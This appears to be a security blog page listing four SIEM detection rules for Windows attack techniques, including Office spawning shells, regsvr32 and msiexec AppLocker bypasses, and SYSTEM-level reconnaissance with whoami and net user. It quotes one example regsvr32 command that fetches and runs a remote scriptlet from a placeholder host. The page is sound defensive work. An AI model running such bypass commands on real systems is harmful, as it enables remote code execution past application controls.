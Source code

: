 ```yaml
---
layout: page
title: Detection Stack
subtitle: A compilation of IOC and SIEM rules for modern threats
tags: [security control, siem, ips, ioc, correlation rule, detection, mitigation, threat, darkquasar]
comments: true
---
```


* TOC
{:toc}

# Summary
This is my collection of detection logics for current threats as it results from personal research. As the list grows, I will develop a framework that will encapsulate everything in a table. Eventually this will also be retrievable in JSON format. 

# Detection Logics

## 001 - Powershell or Cmd spawned by Office Application
This IOC is meant to capture covert instances of cmd or powershell spawned by Microsoft Office applications as a result of exploit activity. The delivery method can be multiple: email with attachments, link in emails, Word documents, Power Point presentations, Excel spreadsheets, etc. 

### Logic
```
Path of Parent Process *contains* "office"
Process Name *contains* "powershell" or "cmd"
Path of Parent Process *not equals* "C:\Program Files\Microsoft Office 15\ClientX64\officeclicktorun.exe" or "C:\Program Files\Microsoft Office Servers\15.0\Synchronization Service\Bin\miiserver.exe" or "C:\Program Files\Common Files\Microsoft Shared\OfficeSoftwareProtectionPlatform\OSPPSVC.EXE"
```
### False Positives
Medium FP ratio

## 002 - Applocker Bypass Methodology 01: regsvr32.exe launching script
This IOC will detect instances of AppLocker bypass methodologies as well as stealth malicious program executions. When regsvr32 launches with some parameters involving a URL it may indicate malicious intent. For example: *regsvr32 /u /n /s /i:http://ip:port/payload.sct scrobj.dll*

### Logic
The detection needs to reflect the fact that regsvr32.exe might be changed to any other name and still be regsvr32. 
```
Process CommandLine *contains* ("regsvr32" AND "http") OR ("/i" AND "http" AND "scrobj.dll")
```
### False Positives
Low FP ratio

## 003 - APT Activity 01: gathering info from victim
This IOC will aims to detect instances of cmd.exe being launched under certain conditions: 1) the account must be NT AUTHORITY\SYSTEM, 2) the process commandline must contain either "whoami" or "net user" which are, in multiple combinations and with different switches (like *net user /groups*) used to gather intel about the current user status in the system after an initial compromise.

### Logic
```
Process Name *equals* "cmd.exe"
Process CommandLine *contains* "whoami" OR "net user"
Process UserName *contains* "SYSTEM"
```
### False Positives
Low FP ratio

## 004 - Applocker Bypass Methodology 02: MSIEXEC.EXE
Msiexe.exe can be used to launch covert applications either over the network or locally. It can even execute code from a script renamed to a .png file!.

### References 
https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/

### Logic
```
Process Name *equals* "msiexec.exe"
Process CommandLine *contains* "http" OR ".png"
```
### False Positives
Medium FP ratio
